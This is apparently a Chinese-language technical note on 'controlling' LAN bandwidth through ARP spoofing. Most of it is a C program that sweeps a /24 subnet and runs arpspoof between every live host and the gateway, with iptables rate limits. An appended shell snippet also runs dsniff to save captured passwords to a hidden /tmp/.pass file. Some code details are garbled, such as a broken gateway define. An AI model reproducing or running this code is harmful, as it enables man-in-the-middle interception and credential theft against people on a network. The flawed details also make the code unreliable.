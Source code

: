 # ARP spoofing 技術管控區網流量實例

\


Aaron Liao, 2014

功能：

1\. 控制區域網路流量

2\. 先使用 arping 檢察現存的 ARP 回應。

需要的工具：

1\. iptables, arping, dsniff

2\. 將 arp\_spoof 新增到 /etc/crontab，用於動態更新 ARP table

/etc/rc.local：

```shell

TEST=`ifconfig|grep 192.168.20.|wc -l`

if [ $TEST -ne 0 ]; then 
    echo $TEST /sbin/arp_spoof;
fi

```



compile:

`$ sudo gcc arp_spoof.c -o /sbin/arp_spoof`



```c
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#define dev "eth0"
#define network "192.168.20."
#define subnet "192.168.20.0/24"
#define gw "192.168.20.1"sh

int detect_arp_alive(char *ip);
int init(void);
int set_local_host(void);
int clean_nf(void);

int set_local_host(void) { 
    system("iptables -I INPUT -d 192.168.20.0/24 -p tcp --sport 80 -m limit --limit 100/second -j ACCEPT"); 
    system("iptables -I INPUT -d 192.168.20.0/24 -p tcp --sport 23 -m limit --limit 50/second -j ACCEPT"); 
    system("iptables -I INPUT -d 192.168.20.0/24 -p tcp --sport 21 -m limit --limit 50/second -j ACCEPT"); 
    system("iptables -I INPUT -d 192.168.20.0/24 -p tcp --sport 20 -m limit --limit 50/second -j ACCEPT"); 
    system("iptables -I INPUT -d 192.168.20.0/24 -p udp --sport 53 -m limit --limit 5/second -j ACCEPT"); 
    system("iptables -A INPUT -d 192.168.20.0/24 -m limit --limit 50/second -j ACCEPT"); 
    system("iptables -I INPUT -p tcp --sport 3389 -j ACCEPT"); 
    system("iptables -A INPUT -d 192.168.20.0/24 -j DROP"); 
    system("iptables -I OUTPUT -s 192.168.20.0/24 -m limit --limit 64/second -j ACCEPT"); 
    system("iptables -I OUTPUT -s 192.168.20.0/24 -p udp --dport 53 -m limit --limit 5/second -j ACCEPT"); 
    system("iptables -I OUTPUT -p tcp --dport 3389 -j ACCEPT"); 
    system("iptables -A OUTPUT -s 192.168.20.0/24 -j DROP"); 
    
    return 0;
}

int detect_arp_alive(char *ip) { 
    char cmd[128]; 
    int i, c; 
    bzero(cmd, sizeof(cmd)); 
    
    // change logic from and to or, PS -w sometimes the unit is us, and sometimes is s 
    sprintf(cmd, "arping -c 1 -w 1 -I %s %s 1>/dev/null 2>/dev/null", dev, ip); 
    
    for(i=0, c=0; i<3; i++) { 
        if(system(cmd)==0) 
            return 0; 
        c++; 
    } 
    
    return c;
}

int clean_nf(void) { 
    system("iptables -F INPUT"); 
    system("iptables -F OUTPUT"); 
    system("iptables -F FORWARD"); 
    system("iptables -P INPUT ACCEPT"); 
    system("iptables -P OUTPUT ACCEPT"); 
    system("iptables -P FORWARD ACCEPT"); 
    
    return 0;
}

int init(void) { 
    system("echo '1' > /proc/sys/net/ipv4/ip_forward"); 
    system("/usr/bin/killall -9 arpspoof"); 
    system("sleep 1"); 
    clean_nf(); 
    set_local_host(); 
    return 0;
}

int main(int argc, char *argv[]) { 
    int ret = 0, i; 
    char ip[15], cmd[128]; 
    
    init(); 
    sprintf(cmd, "iptables -A FORWARD -d %s -m limit --limit 100/second -j ACCEPT", subnet); 
    system(cmd); 
    sprintf(cmd, "iptables -A FORWARD -d %s -p tcp --sport 3389 -j ACCEPT", subnet); 
    system(cmd); 
    sprintf(cmd, "iptables -A FORWARD -s %s -m limit --limit 50/second -j ACCEPT", subnet); 
    system(cmd); 
    sprintf(cmd, "iptables -A FORWARD -s %s -j DROP", subnet); 
    system(cmd); sprintf(cmd, "iptables -A FORWARD -d %s -j DROP", subnet); 
    system(cmd); 
    
    for(i=2;i<254;i++) { 
        /* 2 ~ 253 */ 
        bzero(ip, sizeof(ip)); 
        bzero(cmd, sizeof(cmd)); 
        sprintf(ip, "%s%d", network,i); 
        
        if( detect_arp_alive(ip) == 0 ) { 
            /* limit the rate of the ip */ 
            /* Doing arp spoofing */ 
            sprintf(cmd, "arpspoof -t %s%d %s 1>/dev/null 2>/dev/null &", network, i, gw); 
            system(cmd); 
            
            sprintf(cmd, "arpspoof -t %s %s%d 1>/dev/null 2>/dev/null &", gw, network, i); 
            system(cmd); // limit the Download BW 
            
            sprintf(cmd, "iptables -I FORWARD -d %s%d -m limit --limit 64/second -j ACCEPT", network, i); 
            system(cmd); 
            
            sprintf(cmd, "iptables -I FORWARD -d %s%d -p tcp --sport 1:1024 -m limit --limit 100/second -j ACCEPT", network, i); 
            system(cmd); 
            
            sprintf(cmd, "iptables -I FORWARD -d %s%d -p udp -m limit --limit 50/second -j ACCEPT", network, i); 
            system(cmd); // limit the Upload BW 
            sprintf(cmd, "iptables -I FORWARD -s %s%d -m limit --limit 64/second -j ACCEPT", network, i); 
            system(cmd); 
            sprintf(cmd, "iptables -I FORWARD -s %s%d -p udp --dport 53 -m limit --limit 64/second -j ACCEPT", network, i); 
            system(cmd); 
        }
    } 
    
    return 0;
}

```



其它資訊：

<pre class="language-shell"><code class="lang-shell">iptables -A FORWARD -d this_host_IP -j ACCEPT

# Set the host not to response ARP request,
# Other hosts have to previously set static arp list about the MAC of this host theirself.
<strong>echo "8" > /proc/sys/net/ipv4/conf/all/arp_ignore;
</strong>
# enable packet forward
echo "1" > /proc/sys/net/ipv4/ip_forward;

# make ARP spoofing
arpspoof -i eth0 -t this_host_IP gateway &#x26;
arpspoof -i eth0 -t gateway this_host_IP &#x26;
dsniff -i eth0 -w /tmp/.pass &#x26;

# set static ARP
# MAC of the gateway
arp -s gateway (MAC of gateway)
</code></pre>

